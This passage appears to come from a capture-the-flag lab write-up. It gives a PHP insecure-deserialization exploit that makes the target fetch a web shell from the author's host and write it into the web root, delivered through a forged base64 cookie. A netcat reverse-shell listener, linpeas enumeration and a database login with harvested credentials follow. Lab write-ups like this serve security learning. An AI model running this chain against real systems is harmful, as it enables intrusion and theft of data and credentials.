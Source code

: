 ```php
<?php
function print_object() {
		$tmp = "http://10.10.15.41/shelljojo2.php";
        $imgPath = "/var/www/html/includes/shelljojo2.php";
        $p = new AvatarInterface();
        $p->tmp=$tmp;
        $p->imgPath=$imgPath;

   echo base64_encode(serialize($p));
}

class AvatarInterface {
    public $tmp;
    public $imgPath;
}

print_object();
?>
```

executing the script gives us the base64 encoded serialized php object.

```shell
$ php -f gen_cookie.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czozMzoiaHR0cDovLzEwLjEwLjE1LjQxL3NoZWxsam9qbzIucGhwIjtzOjc6ImltZ1BhdGgiO3M6Mzc6Ii92YXIvd3d3L2h0bWwvaW5jbHVkZXMvc2hlbGxqb2pvMi5waHAiO30=
```

with burp we replaced the cookie and send the request.

![image](/images/Pasted image 20230313223604.png)

after checking the includes listening we found our file.

![image](/images/Pasted image 20230313222926.png)

before we can execute it we need to setup a listener on our side.

```shell
nc -lvnp 4444
```

and we have the shell.

![image](/images/Pasted image 20230313223710.png)

after poking around we used `linpeas.sh` to check for attack vectors. from the php script `db_connect.php` we know some database credentials and with linpeas we got the answer that a `postgresql` database is running. and we have access to `psql`.

to access the database we used the credentials in the php file.

```shell
$ psql -h localhost -U dbuser -d broscience
```
